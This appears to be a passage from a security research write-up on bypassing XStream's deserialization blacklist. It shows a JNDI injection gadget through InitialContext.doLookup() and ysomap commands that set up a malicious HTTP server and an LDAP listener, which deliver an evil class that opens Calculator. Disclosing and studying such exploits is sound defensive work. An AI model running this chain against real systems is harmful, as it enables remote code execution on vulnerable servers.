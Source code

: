 The line 4 to 9 will call a class's static method, so we should find a static method which can do something evil.

I found the `javax.naming.InitialContext.doLookup()` method is a good choice.

```java
public static <T> T doLookup(String name)
    throws NamingException {
    return (T) (new InitialContext()).lookup(name);
}
```

This method could launch a JNDI connection. So we can set up a evil LDAP/RMI server to execute arbitrary code we wanted.

For example, using my tool `ysomap` to set up a LDAP server and evil http server

```
// set up a evil http server
use exploit SimpleHTTPServer
use payload EvilFileWrapper
use bullet ClassWithEvilConstructor
set lport 8088
set path /EvilObj.class
set classname EvilObj
set body "open -a Calculator"
set type class
run
// set up a evil LDAP server
use exploit LDAPRefListener
set lport 1099
set codebase http://localhost:8088/
set objectName EvilObj
run
```

![image-20210105110226086](/images/xstream_blacklist_bypass/image-20210105110226086.png)

Then, try to deserialze the payload, you will get a calculator XD
